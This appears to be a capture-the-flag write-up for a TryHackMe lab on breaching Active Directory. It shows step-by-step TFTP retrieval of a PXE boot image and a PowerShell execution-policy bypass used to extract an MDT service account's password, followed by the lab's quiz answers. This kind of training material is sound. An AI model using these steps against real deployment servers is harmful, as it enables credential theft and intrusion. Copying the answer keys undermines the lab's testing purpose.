 # Task 6 Microsoft Deployment Toolkit

Large organisations need tools to deploy and manage the infrastructure of the estate. In massive organisations, you can't have your IT personnel using DVDs or even USB Flash drives running around installing software on every single machine. Luckily, Microsoft already provides the tools required to manage the estate. However, we can exploit misconfigurations in these tools to also breach AD.

**MDT and SCCM**

MDT(Microsoft Deployment Toolkit) is a Microsoft service that assists with automating the deployment of Microsoft Operating Systems (OS). . Large organisations use services such as MDT to help deploy new images in their estate more efficiently since the base images can be maintained and updated in a central location.

SCCM(System Center Configuration Manage) is like a big brother after deploying the system the managment is done using the SCCM.

**PXE Boot**

Used by larger organization to allow new device that are connected to the network to load and isntall the OS directly.

The communication flow is shown in the diagram below:

![image](https://github.com/Theincognitomode/Breaching-Active-Directory-THM-Writeup/assets/73027020/bf78dd74-4683-422b-8581-34c6cc3ff137)

Follow the in the task in order to perform PXE Boot Image Retrieval

1. ssh the machine using the command(with password `Password1@` :

       ssh thm@THMJMP1.za.tryhackme.com
2. Follow these set of instructions :

       cd Documents
       mkdir <username>
       copy C:\powerpxe <username>\
       cd <username>

**Make sure to change the username pls**

3. Regarding this command make sure to change the  `\Tmp\x64{39...28}.bcd` with a valid file name from the website http://pxeboot.za.tryhackme.com/

       tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd

- In order to get the THMMDT ip type this command `nslookup thmmdt.za.tryhackme.com` or just scroll up to the top and check the ip of the machine over there.


If all the commands are executed without any fail then the shell should look something like this :

![Screenshot (367)](https://github.com/Theincognitomode/Breaching-Active-Directory-THM-Writeup/assets/73027020/525bdca9-1d16-4023-ba7f-0474a0a0c206)

4. Open the  powershell using the command :

       powershell -executionpolicy bypass

5. WIM files are bootable images in the Windows Imaging Format (WIM). Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:

       tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim

**Make sure to place the PXE boot image location..**

Now procced with these steps: 

![image](https://github.com/Theincognitomode/Breaching-Active-Directory-THM-Writeup/assets/73027020/36cb99f0-d8b6-4e3a-b18c-d7a37983c1d9)

![image](https://github.com/Theincognitomode/Breaching-Active-Directory-THM-Writeup/assets/73027020/92bc6293-98b1-4a95-811e-20b6aeead9fe)

After making the changes it will look something like this 

This command will take a around 3-4 mins..

After that execute this command :

     Get-FindCredentials -WimFile pxeboot.wim

Then scrap the image and this will be the output :


    Get-FindCredentials -WimFile .\pxeboot.wim
    >>>> Finding Bootstrap.ini 
    >>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$ 
    >>>> >>>> UserID = svcMDT
    >>>> >>>> UserDomain = ZA
    >>>> >>>> UserPassword = PXEBootSecure1@ `


Now lets answer the question :

**Q1. 
What Microsoft tool is used to create and host PXE Boot images in organisations?**

    Microsoft Deployment Toolkit

**Q2. What network protocol is used for recovery of files from the MDT server?**

    tftp


**Q3. What is the username associated with the account that was stored in the PXE Boot image?**

    svcMDT

**Q4. 
What is the password associated with the account that was stored in the PXE Boot image?**

    PXEBootSecure1@`

    
